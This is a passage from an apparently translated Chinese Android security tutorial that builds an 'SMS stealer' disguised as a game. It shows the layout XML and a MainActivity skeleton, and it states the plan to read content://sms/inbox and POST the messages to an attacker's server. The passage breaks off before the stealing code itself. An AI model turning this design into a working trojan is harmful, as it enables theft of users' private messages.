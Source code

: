     android:paddingRight="@dimen/activity_horizontal_margin"
    android:paddingTop="@dimen/activity_vertical_margin"
    android:paddingBottom="@dimen/activity_vertical_margin" tools:context=".MainActivity">

    <ImageView
        android:layout_width="match_parent"
        android:layout_height="match_parent"
        android:background="@drawable/curveahead"
        android:id="@+id/imageView" />

    <Button
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Start the Game"
        android:id="@+id/btnStart"
        android:layout_alignTop="@+id/imageView"
        android:layout_centerHorizontal="true"
        android:layout_marginTop="84dp" />

</RelativeLayout>
```

正如我们可以在前面的节选中看到的，我们有一个`ImageView`，其中我们加载图像作为背景，然后我们有一个**按钮**，用于显示文本**启动游戏**。

#### MainActivity.java 的代码

现在打开打开`MainActivity.java`并为`Button`类声明一个对象。然后声明一个名为`sms`的字符串变量，该变量将用于存储稍后从设备读取的消息。另外，使用`BasicNameValuePair`创建一个`ArrayList`类类型的对象。`NameValuePair`是一个特殊的<键、值>对，用于表示 HTTP 请求中的参数。我们在这里使用它，因为我们需要稍后通过 HTTP 请求将 SMSE 发送到服务器。最后，为我们创建的按钮设置一个`OnClickListener`事件。每当单击此按钮时，此按钮用于执行代码：

```
public class MainActivity extends Activity {

    Button btn;
    String sms = "";

    ArrayList<BasicNameValuePair> arrayList = new ArrayList<BasicNameValuePair>();

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        btn = (Button) findViewById(R.id.btnStart);

        btn.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {

       //SMS Stealing code here

            }
        });

    }
```

正如您在前面的摘录中所看到的，SMS stealer 应用程序的框架已经准备就绪。我们现在需要在`onClick()`方法中添加短信窃取代码。

#### 读短信代码

以下是从短信应用程序收件箱中读取短信的代码。目标是实现以下目标：

*   阅读内容提供商的短信`content://sms/inbox`
*   将这些短信存储为基本名称-值对
*   使用 http post 请求将此名称-值对上载到攻击者的服务器：

    ```
    Thread thread = new Thread(){
```